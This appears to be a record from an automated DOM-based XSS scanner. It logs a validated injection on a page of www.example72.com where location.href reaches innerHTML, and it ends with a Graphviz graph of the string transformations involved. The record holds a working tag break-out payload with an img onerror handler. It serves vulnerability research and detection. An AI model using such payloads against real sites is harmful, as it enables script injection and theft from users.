// Finding: 8ed020f3-b31d-42c6-9e46-4f49f855cf8a
// Finding.url: https://www.example72.com/resources/community-banking/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('a28b805f455f4e53837e0c48fef08585')><!--/*
// Finding.parentloc: https://www.example72.com/resources/community-banking/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('a28b805f455f4e53837e0c48fef08585')><!--/*
// Finding.domain: www.example72.com
// Finding.base_domain: example72.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: 
// Sanitizer.location: https://www.example72.com/resources/community-banking/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('a28b805f455f4e53837e0c48fef08585')><!--/* - <anonymous>:1065:15
// Finding.begin: 166
// Finding.end: 173
// Finding.original_uuid: 176b0cc7-915e-4f3f-bcea-fc675c221cd9
// Finding.TwentyFiveMillionFlowsId: -542993026
// Finding.script: https://www.example72.com/assets/javascript/jquery-3.4.1.min.js
// Finding.line: 2
// Exploit.uuid: a28b805f-455f-4e53-837e-0c48fef08585
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: aria-label
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 21
// Exploit.end_taint_url: 22
// Exploit.replace_begin_url: 49
// Exploit.replace_end_url: 49
// Exploit.replace_begin_param: 86
// Exploit.replace_end_param: 86
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1760033389
// DepGraph.sanitizer_hash: -948096438
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /(\?.*)$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="split"];
n6 [shape=box, label="Lit: /"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="strtolower"];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="substr"];
n11 [shape=box, label="Var: x"];
n12 [shape=box, label="Lit: 1"];
n13 [shape=ellipse, label="str_replace_once"];
n14 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n15 [shape=box, label="Lit:  "];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="str_replace_once"];
n18 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n19 [shape=box, label="Lit:  "];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="preg_replace"];
n22 [shape=box, label="RegExp: /[-]/"];
n23 [shape=box, label="Lit:  "];
n24 [shape=box, label="Var: x"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: </a></li>"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n7 -> n1;
n5 -> n6;
n5 -> n7;
n9 -> n5;
n8 -> n9;
n11 -> n8;
n10 -> n11;
n10 -> n12;
n16 -> n10;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n20 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n24 -> n17;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n25 -> n21;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}